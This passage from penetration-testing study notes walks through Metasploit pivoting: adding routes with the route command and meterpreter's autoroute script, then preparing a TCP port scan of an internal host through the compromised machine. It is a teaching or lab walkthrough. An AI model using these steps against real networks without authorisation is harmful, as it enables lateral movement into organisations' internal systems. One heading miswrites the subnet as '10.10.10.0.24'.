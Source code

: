     Note: <br>
    If you want to delete, print or flush the routes you can use the route command.
    The following is the help manual displaying all available options.
      ```
      msf > route -h
      Usage: route [add/remove/get/flush/print] subnet mask [comm/sid]

      Route traffic destined to a given subnet through a supplied session.
      The default comm is Local.
      ```
  - `net autoroute -s 10.10.10.0.24`
    Different from the previous command, this is a script that we have to run from within a meterpreter session. Notice that the results of the two commands are the same. All the traffic intended to the network `10.10.10.0/24`, will be routed through the current meterpreter session.

    Let's see how the command works and then check the current routing table with the `autoroute -p` command:
      ```
      meterpreter > run autoroute -s 10.10.10.0/24
      [*] Adding a route to 10.10.10.0/255.255.255.0...
      [+] Added route to 10.10.10.0/255.255.255.0 via 66.176.44.1
      [*] Use the -p option to list all active routes
      meterpreter > run autoroute -p

      Active Routing Table
      ====================

        Subnet              Netmask             Gateway
        ------              -------             -------
        10.10.10.0          255.255.255.0       Session 2
      ```

With the route set, we are now able to use the exploited machine (through our meterpreter session) as a router for our communication with the organization internal network (`10.10.10.0/24`).
  For example, let us try to run a port scan on one of the host found in the previous steps.

  The metasploit module that allows is to run a simple TCP port scan is located at the following path:
    ```
    use auxiliary/scanner/portscan/tcp
    ```

  Example:
    ```
    msf > use auxiliary/scanner/portscan/tcp
    msf auxiliary(tcp) > show options

    Module options (auxiliary/scanner/portscan/tcp):

      Name            Current Setting   Required    Description
      ----            ---------------   --------    -----------
      CONCURRENCY     10                yes         The number of concurrent port to
      PORTS           100-500           yes         Ports to scan (e.g.22-25,80,1-90)
      RHOSTS          10.10.10.5        yes         The target address range or CIDR
      THREADS         10                yes         The number of concurrent threads
      TIMEOUT         1000              yes         The socket connect timeout in ms
    ```
